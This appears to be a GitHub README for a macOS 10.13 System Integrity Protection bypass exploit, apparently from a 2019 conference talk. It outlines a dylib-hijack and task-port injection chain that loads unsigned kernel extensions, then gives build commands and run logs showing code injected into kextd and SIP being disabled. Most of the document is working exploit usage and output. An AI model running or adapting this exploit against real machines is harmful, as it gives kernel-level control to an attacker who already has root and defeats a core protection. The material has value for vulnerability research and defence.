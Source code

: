 # macOS 10.13.x SIP bypass (kernel privilege escalation)

Works only on High Sierra, and requires root privilege. It can be chained with my previous local root exploits.

## Slides

https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf

* `symbols` has `com.apple.system-task-ports` entitlement thus it can get the task port of `kextd` via `task_for_pid`
* Trigger dylib hijack to load evil payload in process `symbols` and steal the entitlement
* `kextd` / `kextutil` / `kextload` pose `com.apple.rootless.kext-secure-management`, with whom the userspace can send MKext request to XNU to load KEXT
* All the validation are checked in userland: code signature, root filesystem permission, User-Approved Kernel Extension Loading, KEXT staging
* Directly ask XNU to load our KEXT without code signature

## Build

First, grab the dependencies

```sh
git submodule init
git submodule update
```

Build [Unrootless.kext](https://github.com/LinusHenze/Unrootless-Kext)

```sh
pushd 3rd-party/Unrootless-Kext ; xcodebuild ; popd
```

Build kernel exploit

```sh
pushd libinj ; make ; popd; pushd kernel ; make ; popd
```

## Run

```
$ sudo ./kernel/bin/exp
Password:
2019-05-13 01:11:14.826 exp[666:7308] [LightYear] taytay pid: 668
2019-05-13 01:11:14.828 exp[666:7308] [LightYear] status: 0, pid 669
2019-05-13 01:11:14.892 symbols[669:7313] [LightYear] I am in symbols
2019-05-13 01:11:14.895 symbols[669:7313] [LightYear] inject /Users/test/Downloads/1/kernel/bin/Toolchains/XcodeDefault.xctoolchain/> usr/lib/libswiftDemangle.dylib to kextd
get task port (OK)
allocate stack (OK)
remote stack 0x10714d000
allocate code (OK)
remote code 0x1041e7000
write loader code (OK)
mark code as eXecutable (OK)
mark stack as RW (OK)
write params (OK)
create remote thread (OK)
So it's gonna be forever
```

Then try to load any unsigned KEXT

```
$ csrutil status
System Integrity Protection status: enabled.
$ codesign -dvvv "./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext"
./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext: code object is not signed at all
$ sudo kextload 3rd-party/Unrootless-Kext/build/Release/Unrootless.kext
$ csrutil status
System Integrity Protection status: disabled.
```